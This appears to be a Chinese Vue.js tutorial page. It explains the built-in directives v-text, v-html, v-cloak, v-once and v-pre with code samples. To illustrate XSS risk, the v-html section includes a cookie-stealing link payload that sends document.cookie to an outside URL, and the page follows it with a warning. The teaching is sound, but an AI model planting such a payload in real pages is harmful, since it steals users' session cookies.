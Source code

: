 ```yaml
---
description: 内置指令
autoPrev: filter
---
```


# 内置指令

在Vue中提供了一些对于页面 + 数据的更为方便的输出，这些操作就叫做指令，以`v-xx` 表示。

我们上面文章用到的 `v-if`，`v-show`，`v-on` 等都属于内置指令，接下来继续介绍其他常用的内置指令。

### v-text

```html
<div id="root">
  <div v-text="name"></div>
</div>
```

```js
<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      name:'Hello Vue'
    }
  })
</script>
```
和插值语法`{{}}` 有点类似，但是 `v-text` 会替换掉节点中的内容，而`{{xx}}` 不会

### v-html

向指定节点中渲染包含html结构的内容。

```html
<div id="root">
  <div v-html="str"></div>
  <div v-html="str2"></div>
</div>
```

```js
<script type="text/javascript">
		new Vue({
			el:'#root',
			data:{
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
```

**<div style="color:red">注意</div>**：

v-html有安全性问题！！！！

在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。

一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！


### v-vloak

 v-cloak 指令设置样式，这些样式会在 Vue 实例编译结束时，从绑定的 HTML 元素上被移除。

当网络较慢，网页还在加载 Vue.js ，而导致 Vue 来不及渲染，这时页面就会显示出 Vue 源代码。我们可以使用 `v-cloak` 指令来解决这一问题。

```html
<div id="root">
  <h2 v-cloak>{{name}}</h2>
</div>
```

```js
<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      name:'Hello'
    }
  })
</script>
```
如果不加 `v-cloak` 在网速慢的情况下，会显示 `{{name}}`，之后才会渲染。

### v-once

v-once这个指令不需要任何表达式，它的作用就是定义它的元素或组件只会渲染一次，包括元素或者组件的所有字节点。首次渲染后，不再随着数据的改变而重新渲染。也就是说使用 `v-once`，那么该块都将被视为静态内容。

```html
<div id="root">
  <h2 v-once>初始化的n值是:{{n}}</h2>
  <h2>当前的n值是:{{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>
```

```js
<script type="text/javascript"> 
  new Vue({
    el:'#root',
    data:{
      n:1
    }
  })
</script>
```

点击按钮没使用 `v-once` 的会发生改变，使用 `v-once` 的不会发生改变。

### v-pre

`v-pre` 跳过其所在节点的编译过程
```html
<div id="root">
  <h2 v-pre>当前的n值是:{{n}}</h2>
  <h2 >当前的n值是:{{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>
```

```js
<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      n:1
    }
  })
</script>
```
使用 `v-pre` 的标签里面的插值表达式就失效了。


